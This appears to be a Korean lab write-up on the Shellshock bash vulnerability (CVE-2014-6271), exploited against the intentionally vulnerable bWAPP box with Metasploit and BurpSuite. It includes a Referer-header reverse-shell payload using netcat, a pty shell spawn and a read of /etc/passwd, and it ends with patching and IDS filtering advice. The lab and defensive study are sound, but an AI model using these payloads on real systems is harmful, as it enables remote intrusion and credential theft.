

 

## Using Known Vulnerable Components

- 알려진 취약점이 있는 컴포넌트 사용

- 웹 서비스를 운영하는 데 영역별로 다양한 모듈과 라이브러리 사용한다.

- 컴포넌트, 라이브러리, 프레임워크 및 다른 SW 모듈은 대부분 항상 전체권한으로 실행되는데

  이러한 취약한 컴포넌트를 악용하여 데이터 유실 및 서버 권한 획득이 가능한 취약점이다.

  

## CGI(Common Gateway Interface)

- 서버와 애플리케이션(응용 프로그램) 간에 데이터를 주고받는 방법 또는 규약
- 서버가 클라이언트로부터 요청을 수신하면, 이 요청이 처리되어야 할 경우, 서버가 애플리케이션을 실행시키고 이에 대한 응답을 받는 기능을 수행
- WAS가 없었을 당시 Web Server에서 동적 콘텐츠를 처리하기 위해 CGI를 사용했었다.

참조 : https://live-everyday.tistory.com/197

  

## Shellshock Vulnerability(CGI)

### GNU Bash

- 2014년 09월 24일 발견
- CVE-2014-6271

 

### Shellshock

- 이 취약점은 Bash 셸에서 환경 변수의 함수 선언문 뒤인 헤더에 임의의 명령어 () {:;}; 와 실행시킬 명령어를 삽입하게되면  환경변수 선언 후 뒤 명령어까지 실행되는 공격
- 공격자는 시스템의 보안을 우회하여 명령어를 실행 가능

 

### Bash Shell

- 사용자가 CLI 기반에서 명령어를 입력하면 OS가 이에 대응하는 동작하게 하는 명령어 해석기
- 프로세스 환경을 이용하여 다른 셸 인스턴스에 환경변수뿐 아니라 셸 함수를 선언하는 기능을 제공
- 함수 선언문에서 반복문으로 멈추지 않고 마지막까지 진행하여 추가된 셸 명령어까지 실행

 

### Bash Shell Bug

- Bash로 해당 명령을 실행했을 때, 그에 대응하는 결과 뿐만 아닌 다른 결과까지 실행하는 버그

  

## bWAPP

### 문제

- HINT : referer 헤더를 공격하여 아래 박스를 해킹하라
- 해당 문제 메타스플로잇 모듈 : exploit/multi/http/apache_mod_cgi_bash_env_exec

  

## Kali - msfconsole

### 실행

- 공격대상 : referer

 

### CGI 스크립트 경로  - 개발자 도구(F12)

- 문제 HINT의 pwn this box 가 CGI 스크립트
- CGI 스크립트 경로 : /bWAPP/cgi-bin/shellshock.sh

 

### exploit - set

- header 는 referer
- rhosts 는 비박스 IP
- 경로 : CGI 스크립트
- check로 설정 확인

 

### Exploit

- exploit 실행
- cat 명령어로 비박스 사이트 패스워드 정보 열람

  

## Kali - BurpSuite

### Netcat

- netcat 명령어로 8888번 포트 열기

### BurpSuite - 1

- 패킷 가로챔
- Forward 눌러서 한 번 넘겨줘서 헤더의 주소가 GET /bWAPP/cgi-bin/shellshock.sh HTTP/1.1로 바뀌게하기

### BurpSuite - 2

- Referer에 Shellshock 공격하기위해 환경변수 명령어와 () {:;}; 입력
- Referer: () { :; }; /bin/bash -c "nc [칼리 IP] [포트 번호] -e /bin/bash"

### BurpSuite - 3

- Forward 후 intercept off 누르기

 

### Kali

- 변조한 패킷 보내게 되면 페이지는 계속 로딩, 칼리는 쉘이 연결됨

 

### 명령어 수행

- 비박스 서버 쉘 획득
- python -c "import pty;pty.spawn('/bin/bash')" 명령어를 통해 프롬프트 생성
- cat /etc/passwd 로 패스워드 정보 열람

## 대응방안

- 취약한 버전 4.3 이전의 Bash를 업데이트하거나 CGI 제거
- 보안장비(IDS, IPS)를 통해 Shellshock 취약점 공격 문자열인 () { 문자열을 검열하여 차단
- 서비스에서 입력 값에 대한 검증을 임시로 추가하여 대응
